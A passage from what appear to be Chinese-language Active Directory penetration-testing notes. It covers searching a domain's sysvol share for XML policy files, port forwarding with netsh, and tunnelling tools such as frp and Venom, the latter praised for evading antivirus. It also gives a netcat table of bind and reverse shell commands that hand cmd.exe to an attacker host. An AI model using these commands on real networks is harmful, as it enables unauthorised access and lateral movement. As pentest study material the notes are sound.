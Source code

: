   ```shell for /r \\dc/sysvol %i in (*.xml) do @echo %i```
## 0x03 内网通信

> 刚好看到这里的时候，正好也看到了[酒仙桥作战部队](https://mp.weixin.qq.com/s/6Q_i34ND-Epcu-71LHZRlA)的文章，一块整理一下

### 正反向代理

略

### 转发工具

> 转发的工具其实也有很多，感觉也不是一定都要全部用上。顺手的，免杀的，就是坠吼的

> 图搬运自酒仙桥作战部队文章

![](https://github.com/chriskaliX/AD-Pentest-Notes/raw/master/imgs/transfer.png)

提及一下 socks 。socks目前分为2个版本，socks4和socks5。
socks4 支持 TELNET, FTP, HTTP等TCP协议
socks5支持TCP与UDP，并且支持安全认证方案
他们都不支持ICMP，也就是都不能拿来ping
**所以在使用socks4版本时候，nmap要加上`-sT`和`-Pn`** 来禁止使用 icmp协议

#### Netsh

> netsh是windows自带的，可以用来做端口转发的工具

`netsh interface portproxy add v4tov4 listenport=80 connectport=80 connectaddress=10.10.10.8  protocol=tcp`
在10.10.10.12（windows 10上开启）
![](https://github.com/chriskaliX/AD-Pentest-Notes/raw/master/imgs/netsh1.png)
然后在10.10.10.10上访问10.10.10.12的80端口，看到
![](https://github.com/chriskaliX/AD-Pentest-Notes/raw/master/imgs/netsh2.png)

#### Nc

| 类型 | A主机（攻击机）      | B主机（反弹机）               |                          |
| ---- | -------------------- | ----------------------------- | ------------------------ |
| 正向 | nc -nvv B主机IP 5555 | nc -l -p 5555 -t -e cmd.exe   | A主机正向连接B主机       |
| 反向 | nc -lvvp 5555        | nc -t -e cmd.exe A主机ip 5555 | A主机监听，B主机反向连接 |

#### frp

> 经典，老FRP了，FRP的功能十分丰富齐全，就不重复做搬运工了，可以直接看[文档](https://github.com/fatedier/frp/blob/v0.33.0/README_zh.md)

#### Venom 

> 这个是在看酒仙桥作战部队的时候学习到的，[Venom地址](https://github.com/Dliv3/Venom)

这个项目看起来挺好的，Go写的，落地也没有被杀，估计用的人不是很多吧（我猜

这个工具主要是两个，admin跟agent，一个是主控一个代理，两个都支持监听和主动连接

##### 具体使用

在自己的VPS上开启监听，监听9999端口

![](https://github.com/chriskaliX/AD-Pentest-Notes/raw/master/imgs/venom_1.png)

本地主机主动连接

![](https://github.com/chriskaliX/AD-Pentest-Notes/raw/master/imgs/venom_2.png)

   ```